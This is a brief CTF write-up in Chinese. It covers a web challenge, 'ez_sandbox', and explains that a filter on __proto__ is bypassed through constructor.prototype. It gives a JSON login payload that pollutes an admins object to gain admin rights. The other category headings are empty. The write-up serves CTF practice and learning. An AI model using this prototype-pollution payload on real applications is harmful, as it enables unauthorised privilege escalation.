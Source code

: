 # web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22
